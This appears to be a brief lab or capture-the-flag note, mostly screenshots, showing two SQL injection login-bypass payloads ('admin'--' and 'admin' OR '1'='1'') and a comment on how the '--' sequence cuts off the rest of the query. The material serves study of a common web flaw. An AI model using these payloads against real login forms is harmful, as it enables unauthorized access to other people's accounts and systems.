![Screenshot from 2022-10-10 13-49-37](https://user-images.githubusercontent.com/68273655/194850396-0d5ab0cd-7ba0-412f-a56b-36f8fc12fc1d.png)

Username: admin'--   #to comment out query code that comes after the '--'
![Screenshot from 2022-10-10 13-30-11](https://user-images.githubusercontent.com/68273655/194850568-f13304ab-0ade-449f-be9b-4adc858336e2.png)
![Screenshot from 2022-10-10 13-34-47](https://user-images.githubusercontent.com/68273655/194850608-0b6ca42b-60fa-4b5d-b980-3cd8a6bb5b47.png)

admin' OR '1'='1'
![Screenshot from 2022-10-10 13-35-33](https://user-images.githubusercontent.com/68273655/194850762-78f25235-8f49-4a91-b661-15b5ae46143d.png)





